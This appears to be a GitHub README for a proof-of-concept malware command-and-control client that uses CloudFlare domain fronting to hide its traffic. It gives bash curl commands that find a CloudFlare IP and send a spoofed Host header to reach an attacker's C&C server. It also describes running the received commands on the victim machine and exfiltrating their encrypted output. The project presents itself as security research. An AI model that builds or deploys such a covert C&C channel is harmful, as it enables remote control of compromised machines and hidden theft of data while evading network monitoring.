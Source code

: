 # CloudFlare C&C POC
Before to start, let me say that I'm not a super expert on how to write a C&C client-server. This want to be a POC on how a Malware can hide behind a "fake" CloudFlare domain (see this post for more information: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437)

![](http://i.imgur.com/ZTsKokU.gif)

## How it work
The client, on the "Victim" PC, is a bash script that uses cURL to connect to CloudFlare and OpenSSL to encrypt all communications from and to CloudFlare/C&C. It simply make 2 HTTP request each *n* seconds: The first one, in order to discover a CloudFlare IP address, try to connect to a "real" CloudFlare website. The second one, make a fake request to CloudFlare to reach our C&C.

```bash
# get any usable CloudFlare IP address
CFIP=$(curl -v -I http://medium.com 2>&1 | egrep -o '\d+\.\d+\.\d+\.\d+' | head -1)

# get updates from my C&C
curl -H "Host: myfakedomain.com" "http://${CFIP}/?nocache=`date +%s`"
```

When the client receive an update, it decrypt the response_body and execute the command. Then it encrypt the command output and send it back to the C&C. The bash script uses OpenSSL to encrypt and decrypt.

![hiw](http://i.imgur.com/hYzqMWx.png)

## A dump of the client request
Following, a screenshot that shows how the client requests appear sniffing the http traffic on the victim PC.
![ws](http://i.imgur.com/ilVKfgV.png)

First, we have a CloudFlare IP `104.16.122.127` as a destination IP address:
```bash
$ whois 104.16.122.127
...
OrgName:        Cloudflare, Inc.
OrgId:          CLOUD14
Address:        101 Townsend Street
City:           San Francisco
StateProv:      CA
PostalCode:     94107
Country:        US
RegDate:        2010-07-09
Updated:        2017-02-17
Comment:        All Cloudflare abuse reporting can be done via https://www.cloudflare.com/abuse
Ref:            https://whois.arin.net/rest/org/CLOUD14
...
```

Then we see a POST request to `corriere.it` hostname (an italian daily newspaper), and in the request body we have the encrypted `ls -lart /tmp/` output.

## Info
What "Domain Fronting" is: https://en.wikipedia.org/wiki/Domain_fronting
CloudFlare Domain Fronting: https://medium.com/@themiddleblue/cloudflare-domain-fronting-an-easy-way-to-reach-and-hide-a-malware-c-c-786255f0f437
theMiddle @twitter: https://twitter.com/Menin_TheMiddle
